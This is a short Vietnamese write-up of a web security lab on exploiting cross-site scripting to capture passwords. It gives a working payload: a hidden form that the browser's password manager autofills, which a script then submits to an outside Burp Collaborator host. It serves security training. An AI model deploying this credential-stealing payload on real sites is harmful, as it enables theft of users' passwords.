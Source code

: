 ## Exploiting cross-site scripting to capture passwords

1. Khi thử comment với payload `<script>alert(1)</script>` nhận thấy trang web reflect y nguyên input. 

2. Tận dụng các trình autofill mật khẩu đã lưu của trình duyệt tạo form tự động điền các giá trị user|pw cùng với csrf token rồi gửi tới trang web mình kiểm soát để lấy mật khẩu của victim

- Payload:

```
<form action="https://ap3ib11c8lbvcyz4y3ondbwlscy2mr.oastify.com" id="xss-form">
    <input name=password type=password value="password">
    <input name=username type=text value="username">
</form>
<script>
    setTimeout(function(){document.getElementById("xss-form").submit()}, 3000);
</script>
```

-> Gửi kèm 2 param chứa thông tin đăng nhập tới burp collaborator

3. Check interaction nhận được http request chứa thông tin đăng nhập 

![Img1](\asset/../img/done.png)